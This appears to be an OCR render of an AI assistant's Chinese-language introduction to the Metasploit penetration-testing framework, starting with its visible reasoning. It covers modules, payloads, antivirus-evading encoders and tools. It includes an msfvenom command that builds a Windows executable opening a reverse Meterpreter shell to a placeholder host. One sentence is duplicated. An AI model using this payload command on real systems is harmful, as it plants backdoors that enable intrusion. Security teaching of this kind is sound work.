 好的，用户问的是“metasploit详细介绍”，首先得确定他的背景。可能是刚接触安全的新手，或者想找工具进行渗透测试？需要先理清Metasploit的核心结构，避免堆砌术语。

嗯，用户可能不只是要基本定义，而是想了解怎么用、能做什么。得拆分成框架构成、主要功能、使用场景这些部分。要注意区分社区版和专业版的区别，毕竟新手可能从免费版开始。

深层需求可能是想实际应用，比如学习渗透测试或者应对考试？得强调合法使用，避免误导。加上工作流程和例子，比如MS08-067的案例，能帮助理解操作步骤。

还要提醒法律风险，特别是提到Armitage和Veil时，避免用户误入歧途。最后总结学习路径，引导到正确资源，比如官方文档和道德规范。

好的，这是一份关于 Metasploit 的详细介绍。它将从基本概念讲起，逐步深入到核心组件、工作流程、使用场景和最佳实践。

好的，这是一份关于 Metasploit 的详细介绍。它将从基本概念讲起，逐步深入到核心组件、工作流程、使用场景和最佳实践。

---

### **Metasploit 详细介绍**

#### **一、Metasploit 是什么？**

Metasploit 是一个**渗透测试框架**，是目前全球最流行、最强大的网络安全工具之一。它不是一个单一的工具，而是一个集成了**漏洞研究、漏洞验证和渗透测试**功能的平台。

简单来说，Metasploit 是一个“**漏洞武器库**”和“**攻击模拟平台**”。安全人员（白帽子）可以用它来模拟真实世界中的黑客攻击，以此发现和验证系统漏洞，并评估这些漏洞可能带来的风险。

**开发与历史：**
最初由 H.D. Moore 在 2003 年创建，后来被 Rapid7 公司收购。它从一个开源项目发展至今，拥有两个主要版本：
*   **Metasploit Framework（社区版/专业版）**： 核心命令行版本，免费且开源。
*   **Metasploit Pro（商业版）**： 提供图形化界面和更高级的功能，如自动化渗透、高级渗透等。

#### **二、核心组件与架构**

理解 Metasploit 的关键在于理解其模块化架构。所有功能都以“模块”的形式存在。

1.  **Modules（模块）**
    *   **Exploit（漏洞利用模块）**
        *   这是框架的核心。每个 Exploit 模块都针对一个特定的软件漏洞（如 CVE-2019-0708 “BlueKeep”）。
        *   它的作用是利用漏洞，将程序的控制流劫持，为后续植入载荷做准备。
    *   **Payload（攻击载荷模块）**
        *   这是在成功利用漏洞后，在目标系统上运行的代码。
        *   常见的 Payload 包括：
            *   **反向 Shell**： 让目标机器主动连接回攻击者的机器，建立一个命令行会话。
            *   **Meterpreter**： **Metasploit 的招牌载荷**，是一个高级、动态、可扩展的负载。它运行在内存中（无文件落地），提供了一套强大的命令行交互，可以执行文件操作、键盘记录、权限提升等。
            *   **VNC Injection**： 在目标机器上开启一个 VNC 远程桌面连接。
    *   **Auxiliary（辅助模块）**
        *   这些模块不直接在目标上执行 Shell Code，而是用于执行信息收集、扫描、嗅探、模糊测试等辅助任务。
        *   例如：端口扫描、服务版本探测、SNMP 信息枚举、密码爆破等。
    *   **Encoders（编码器）**
        *   用于对 Payload 进行编码，目的是**逃避杀毒软件**的检测。它通过改变 Payload 的签名来绕过特征码检查。
        *   **注意**： 在现代安全环境下，编码器的效果已大不如前，需要结合其他免杀技术。
    *   **NOP Generators（NOP 生成器）**
        *   在缓冲区溢出攻击中，NOP（空操作）指令用于提高 Exploit 的稳定性和成功率。

2.  **Tools（工具）**
    *   **MSFConsole**
        *   **这是最强大、最常用的 Metasploit 接口**。它是一个交互式的命令行环境，集成了所有功能，支持选项卡补全、命令历史等，是渗透测试人员的主要操作界面。
    *   **MSFVenom**
        *   一个独立的 Payload 生成器。用于创建独立的、可执行的后门程序。
        *   **典型用法**： 生成一个 Windows 可执行文件（.exe），这个文件在运行时会产生一个反向 Meterpreter 连接。
        *   命令示例：`msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > shell.exe`
    *   **MSFDB**
        *   用于初始化和管理 PostgreSQL 数据库。使用数据库可以极大地提升工作效率，因为它能存储扫描结果、主机信息、凭证等，方便快速搜索和关联分析。
